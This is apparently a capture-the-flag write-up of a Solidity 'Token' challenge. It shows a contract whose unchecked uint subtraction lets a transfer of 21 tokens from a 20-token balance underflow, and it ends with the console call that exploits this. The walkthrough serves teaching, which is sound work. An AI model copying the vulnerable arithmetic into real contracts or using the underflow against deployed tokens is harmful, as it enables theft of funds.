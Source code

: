 # Token

The source for this challenge is

```
pragma solidity ^0.4.18;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  function Token(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

The challenge says that we start with 20 tokens and the objective is to somehow get more than that. In order to do this we can use an underflow.

The `mapping(address => uint) balances;` states that each `address` has a `balance` and this is a `uint`. `uint` is the same as `uint256`, this means that the `balance` can hold an integer within `[0, 2^256 -1]`. Notice that this range contains only positive integers so what happens if this variable goes below `0`? It can't be a negative integer so it will be set to a positive integer greater than 0.

In this challenge we have 20 tokens and if we invoke the `transfer` function with a `_value` of 21 we are going to do an underflow.

```
// The condition inside the require will be satisfied because
// 20 - 21 = 2^256 - 1
require(balances[msg.sender] - _value >= 0);

// Our balance will be set to a really big number because
// 20 - 21 = 2^256 - 1
balances[msg.sender] -= _value;

// If we use _to as our address we are going to undo the overflow because
// (2^256 - 1) + 21 = 20
// So we need to use another address like 0x0000000000000000000000000000000000000000
balances[_to] += _value;
```

Then to solve this challenge we need to call the transfer function from the console like

```
contract.transfer("0x0000000000000000000000000000000000000000", 21)
```
